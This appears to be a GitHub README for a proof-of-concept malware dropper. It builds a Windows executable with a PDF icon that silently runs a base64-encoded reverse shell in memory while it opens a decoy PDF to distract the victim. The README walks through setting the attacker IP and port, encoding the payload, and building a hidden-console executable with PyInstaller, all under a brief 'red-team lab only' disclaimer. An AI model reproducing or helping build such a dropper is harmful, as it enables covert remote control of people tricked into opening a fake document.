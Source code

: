 # reverse-shell-pdf-dropper
A proof-of-concept reverse shell dropper that opens a legit PDF while executing a base64-encoded payload. For red-team training only.


# 🐚 Reverse Shell PDF Dropper (PoC)

A proof-of-concept **reverse shell dropper** built with Python and PyInstaller.  
It silently executes a base64-encoded reverse shell payload while opening a real PDF document to distract the user.

> ⚠️ **This tool is for educational and red-team lab use only.**

---

## 🧩 Features

- 🔥 Executes a reverse shell payload **in memory**
- 📄 Opens a **legitimate PDF file** to distract the victim
- 🧬 Payload is embedded as **base64**
- 🔐 Uses `PyInstaller` to generate a single `.exe` file with a **PDF icon**

---

## 📁 Files in This Project

| File           | Description                                           |
|----------------|-------------------------------------------------------|
| `loader.py`    | Main dropper: decodes & runs the payload, opens PDF  |
| `payload.py`   | Python reverse shell payload                         |
| `test.pdf`     | Legit document shown to the victim                   |
| `pdf.ico`      | Fake PDF icon (optional)                             |
| `payload.b64`  | (Generated later — see below)                        |

---

## ⚙️ How to Use

### 1. Customize Your Payload

Edit `payload.py` and set your **attacker IP and port**:

```python
host = "YOUR_IP"
port = 4444
```

### 2. Generate payload.b64

From your terminal or PowerShell:

base64 payload.py > payload.b64

✅ This will create a file named payload.b64 in the same folder.

### 3. Build the Executable with PyInstaller

pyinstaller --onefile --noconsole --icon=pdf.ico --add-data "payload.b64;." --add-data "test.pdf;." loader.py
